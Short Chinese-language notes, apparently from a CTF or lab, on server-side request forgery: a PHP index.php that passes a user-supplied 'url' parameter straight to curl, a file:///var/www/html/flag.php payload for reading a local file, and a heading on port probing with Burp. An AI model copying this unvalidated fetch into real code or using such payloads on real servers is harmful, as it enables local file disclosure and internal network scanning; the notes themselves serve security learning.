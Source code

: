 # 内网访问
# 伪协议读取文件
**index.php**
```php
<?php

error_reporting(0);

if (!isset($_REQUEST['url'])){
    header("Location: /?url=_");
    exit;
}

$ch = curl_init();
curl_setopt($ch, CURLOPT_URL, $_REQUEST['url']);
curl_setopt($ch, CURLOPT_HEADER, 0);
curl_exec($ch);
curl_close($ch);
```
**payload:** file:///var/www/html/flag.php
# 端口扫描
借助burp进行端口探测·
![](attachment/Pasted%20image%2020230221191528.png)
